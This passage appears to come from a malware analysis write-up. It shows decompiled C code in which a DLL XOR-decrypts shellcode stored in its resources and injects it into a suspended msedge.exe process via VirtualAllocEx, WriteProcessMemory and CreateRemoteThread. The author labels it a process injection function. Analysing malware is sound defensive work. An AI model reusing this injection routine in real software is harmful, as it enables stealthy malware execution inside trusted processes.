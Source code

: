 ```c=
              {
                v8 = (v8 + 1);
                v9 = v7++ & 0xF;
                *(v8 - 1) ^= aX7qp9zlma2vtej[v9];
              }
              while ( v7 < v2 );
              ResourceW = VirtualAllocEx(ProcessInformation.hProcess, 0LL, v2, 0x3000u, 0x40u);
              v10 = ResourceW;
              if ( ResourceW )
              {
                NumberOfBytesWritten = 0LL;
                LODWORD(ResourceW) = WriteProcessMemory(
                                       ProcessInformation.hProcess,
                                       ResourceW,
                                       v6,
                                       v5,
                                       &NumberOfBytesWritten);
                if ( ResourceW )
                {
                  ResourceW = CreateRemoteThread(ProcessInformation.hProcess, 0LL, 0LL, v10, 0LL, 0, 0LL);
                  v11 = ResourceW;
                  if ( ResourceW )
                  {
                    ExitCode = 0;
                    GetExitCodeThread(ResourceW, &ExitCode);
                    CloseHandle(v11);
                    CloseHandle(ProcessInformation.hThread);
                    CloseHandle(ProcessInformation.hProcess);
                    LODWORD(ResourceW) = VirtualFree(v6, 0LL, 0x8000u);
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return ResourceW;
}
```

as you can see, this function is absolutely a **process injection** function using a shellcode embedded in the DLL's resources.
```c=
CreateProcessW(
                         L"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
                         0LL,
                         0LL,
                         0LL,
                         0,
                         4u,
                         0LL,
                         0LL,
                         &lpStartupInfo,
                         &ProcessInformation);
```
